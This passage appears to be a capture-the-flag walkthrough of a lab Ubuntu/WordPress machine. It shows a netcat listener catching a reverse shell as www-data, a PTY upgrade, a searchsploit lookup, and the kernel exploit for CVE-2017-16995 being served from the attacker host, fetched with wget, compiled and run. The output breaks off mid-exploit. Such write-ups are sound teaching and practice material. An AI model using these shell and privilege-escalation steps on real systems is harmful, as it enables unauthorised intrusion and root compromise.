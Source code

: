 ```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.134] 56146
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ uname -r
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 4.10.0-28-generic
```

## Privilege Escalation
### Linux Kernel Exploit

To this kernel version I found an exploit [cve-2017-16995](https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html), that allows for arbitrary read/write access to the linux kernel, bypassing SMEP/SMAP.

```console
root@kali:~$ searchsploit ubuntu 4.10.0-28 
--------------------------------------------------------------------------------------------------------- --------------------------
 Exploit Title                                                                                           |  Path   
--------------------------------------------------------------------------------------------------------- --------------------------
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                                     | linux/dos/43234.c 
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                            | linux/local/45010.c 
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Namespace Privilege Escalation                   | linux/local/41760.txt 
--------------------------------------------------------------------------------------------------------- --------------------------
```

So, I copied the exploit to my current directory and started a web server with python, as shown below:

```console
root@kali:~$ searchsploit -m linux/local/45010.c
root@kali:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then I downloaded the exploit on the target machine, compiled it and ran it, and this way I got root.

```console
www-data@ubuntu:/dev/shm$ wget 192.168.179.1:8000/45010.c -O r00t.c
www-data@ubuntu:/dev/shm$ gcc r00t.c -o r00t
gcc r00t.c -o r00t
www-data@ubuntu:/dev/shm$ ./r00t
./r00t
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8f28770c8500
[*] Leaking sock struct from ffff8f2841f41000
[*] Sock->sk_rcvtimeo at offset 592
```